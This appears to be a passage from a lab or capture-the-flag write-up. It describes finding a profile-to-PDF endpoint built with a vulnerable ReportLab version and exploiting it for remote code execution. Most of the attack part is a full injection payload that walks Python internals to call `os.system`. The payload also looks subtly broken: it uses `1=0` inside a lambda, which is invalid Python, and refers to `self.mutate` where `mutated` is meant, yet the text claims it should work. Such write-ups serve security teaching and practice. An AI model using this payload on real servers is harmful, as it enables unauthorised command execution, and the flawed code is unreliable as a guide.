 But reviewing the source code, we found a new functionality that we can trigger calling the `/account/profile/pdf` endpoint through a GET request
<br/><br/>
![image.png]({{ '/assets/images/dddc540b-b15a-4ca6-a4e5-f95074025ea8-export-c6a747d0-44c2-4f1a-b1f3-cc9f14194be4/dddc540b-b15a-4ca6-a4e5-f95074025ea8-export-c6a747d0-44c2-4f1a-b1f3-cc9f14194be4_image_9.png' | relative_url }})
<br/><br/>
Basically it takes the whole information we have in our profile, and it creates a .pdf file 
<br/><br/>
![image.png]({{ '/assets/images/dddc540b-b15a-4ca6-a4e5-f95074025ea8-export-c6a747d0-44c2-4f1a-b1f3-cc9f14194be4/dddc540b-b15a-4ca6-a4e5-f95074025ea8-export-c6a747d0-44c2-4f1a-b1f3-cc9f14194be4_image_10.png' | relative_url }})
<br/><br/>
We can inspect metadata information inside of the pdf file to discover that it is creates thanks to ReportLab, which is a python library with a known vulnerability
<br/><br/>
![image.png]({{ '/assets/images/dddc540b-b15a-4ca6-a4e5-f95074025ea8-export-c6a747d0-44c2-4f1a-b1f3-cc9f14194be4/dddc540b-b15a-4ca6-a4e5-f95074025ea8-export-c6a747d0-44c2-4f1a-b1f3-cc9f14194be4_image_11.png' | relative_url }})
<br/><br/>
![image.png]({{ '/assets/images/dddc540b-b15a-4ca6-a4e5-f95074025ea8-export-c6a747d0-44c2-4f1a-b1f3-cc9f14194be4/dddc540b-b15a-4ca6-a4e5-f95074025ea8-export-c6a747d0-44c2-4f1a-b1f3-cc9f14194be4_image_12.png' | relative_url }})
<br/><br/>
Luckily or unluckily this version of report lab is vulnerable
<br/><br/>
![image.png]({{ '/assets/images/dddc540b-b15a-4ca6-a4e5-f95074025ea8-export-c6a747d0-44c2-4f1a-b1f3-cc9f14194be4/dddc540b-b15a-4ca6-a4e5-f95074025ea8-export-c6a747d0-44c2-4f1a-b1f3-cc9f14194be4_image_13.png' | relative_url }})
<br/><br/>
![image.png]({{ '/assets/images/dddc540b-b15a-4ca6-a4e5-f95074025ea8-export-c6a747d0-44c2-4f1a-b1f3-cc9f14194be4/dddc540b-b15a-4ca6-a4e5-f95074025ea8-export-c6a747d0-44c2-4f1a-b1f3-cc9f14194be4_image_14.png' | relative_url }})
<br/><br/>
But after a while, the payload is interpreted and executed but there is something wrong with it because we cannot get RCE at all. After a little research we found that the problem resided on the False statement, it is not well interpreted by the engine i think it has Jinja or something like that behind so we just change `False` to `1=0` , it should works.
<br/><br/>

```jsx
<para><font color="[[ 
#Gets global from pow
	getattr(
		pow,
		Word('__globals__')
	)['os'].system('payload') #Execute the payload 
#creates a list 
for Word in [
	#It creates new classes dinamically
	orgTypeFun('Word',(str), {
		'mutated':1, 
		'startswith': lambda self,x: 1=0,
		'__eq__':lambda self, x: 
			self.mutate() and #Evaluates mutate
			self.mutate < 0 and 
			str(self) == x, 
		'mutate':lambda self: { #Here mutates decrease
			setattr(self,'mutated', self.mutated -1)
		}, 
		'__hash__': lambda self: hash(str(self))
		})
	]] 
	for orgTypeFun in [type(type(1))]
] and 'red'">
anything
</font></para>
```
